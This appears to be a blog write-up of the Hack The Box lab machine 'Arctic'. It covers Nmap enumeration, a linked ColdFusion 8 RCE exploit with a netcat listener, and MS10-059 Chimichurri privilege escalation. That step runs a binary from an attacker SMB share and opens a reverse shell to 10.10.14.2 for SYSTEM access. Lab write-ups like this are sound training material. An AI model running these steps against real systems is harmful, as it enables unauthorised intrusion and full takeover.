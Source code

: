 ```yaml
---
clayout: ctf
title: Arctic
date: 2025-09-18
image: /ctf/hack-the-box/machines/arctic/info-card.png
type: Hack The Box

ctf:
    - name: Arctic
      link: https://app.hackthebox.com/machines/9
      thumbnail: /ctf/hack-the-box/machines/arctic/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/9
          thumbnail: /ctf/hack-the-box/machines/arctic/pwned.png
---
```

## Machine Overview

The target machine runs a vulnerable ColdFusion 8 service exposed over HTTP (port 8500). Initial access is obtained through a known exploit for ColdFusion 8, and privilege escalation is achieved via a kernel exploit.

## Enumeration

### Nmap Scan

Started off with an Nmap scan to find open ports and services:

```bash
nmap -sC -sV -A -oN arctic.nmap 10.10.10.11
```

**Results:**

```bash
PORT     STATE SERVICE    VERSION
135/tcp  open
8500/tcp open
```

### Checking Out the Web Service

Going to `http://10.10.10.11:8500/` shows a directory listing:

![Directory Listing](/ctf/hack-the-box/machines/arctic/home.png)

From there, we find this path:

```url
/CFIDE/adminapi/administrator.cfc
```

It takes us to a login page for the ColdFusion admin panel:

![ColdFusion Login](/ctf/hack-the-box/machines/arctic/login.png)

## Getting a Shell (Initial Access)

The service on port 8500 is **Adobe ColdFusion 8**, which has some known vulnerabilities.

A quick Google search for “ColdFusion 8 exploit” led to this:

* **Exploit:** [ColdFusion 8 - RCE (Exploit-DB)](https://www.exploit-db.com/exploits/50057)

### Running the Exploit

We used the Python exploit to get a shell:

```bash
python 50057.py
```

Set up a Netcat listener:

```bash
nc -lnvp 4444
```

Shell comes back as the `tolis` user:

```bash
C:\ColdFusion8\runtime\bin> whoami  
arctic\tolis
```

## Privilege Escalation (tolis → root)

### System Info

Checked system info to look for possible privilege escalation paths:

```bash
systeminfo
```

Key details:

```bash
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
```

This version is vulnerable to **MS10-059** and other kernel exploits.

* **Exploit:** [MS10-059 Chimichurri - GitHub](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri)

### Running the Exploit

Copied the payload to the target from an SMB share:

```bash
\\10.10.14.2\smb-share\Chimichurri.exe 10.10.14.2 5555
```

Listener setup:

```bash
nc -lnvp 5555
```

Now we’ve got SYSTEM access:

```bash
C:\ColdFusion8\runtime\bin> whoami  
nt authority\system
```

> [!IMPORTANT] User & Root Flags
>
> * **User:** `C:\Users\tolis\Desktop\user.txt`
> * **Root:** `C:\Users\Administrator\Desktop\root.txt`
